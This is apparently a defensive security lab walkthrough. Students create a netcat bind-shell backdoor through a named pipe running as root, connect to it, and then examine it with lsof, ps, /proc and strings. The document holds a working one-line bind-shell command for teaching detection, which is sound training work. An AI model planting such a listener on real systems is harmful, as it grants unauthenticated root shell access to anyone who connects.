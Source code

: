 
# Linux CLI

In this lab we will be looking at a backdoor through the lense of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

/#`mknod backpipe p`

Next, let's start the backdoor:

/#`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basicly, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

$`ifconfig`

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, let's connect:

$` nc 172.30.249.49 2222`

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

`ls`
`whoami`

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we succesfully connected to the backdoor.  It just drops our curser back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basicly, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

/#`lsof -i -P`


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

/#`lsof -p 131`

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

/#`ps aux`

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very usesfull as it allows us to dig into the memory of a process that is currently running on a suspect system.

/#`cd /proc/[pid]`

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

/#`ls`

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

/#`strings ./exe`

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it direcly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















